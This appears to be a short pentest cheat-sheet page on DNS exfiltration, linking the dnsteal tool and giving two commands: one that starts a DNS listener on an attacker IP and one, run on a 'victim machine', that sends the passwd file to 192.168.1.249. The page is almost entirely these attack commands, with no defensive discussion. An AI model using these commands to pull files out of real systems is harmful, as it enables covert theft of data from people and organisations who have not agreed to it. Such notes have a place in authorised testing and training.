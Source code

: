 # DNS Exfiltration

{% embed url="https://github.com/m57/dnsteal" %}

## DNS Server Setup

```
sudo python2 dnsteal.py <attacker ip> -z -v
```

## Victim Machine

```
./sadness.sh passwd 192.168.1.249
```

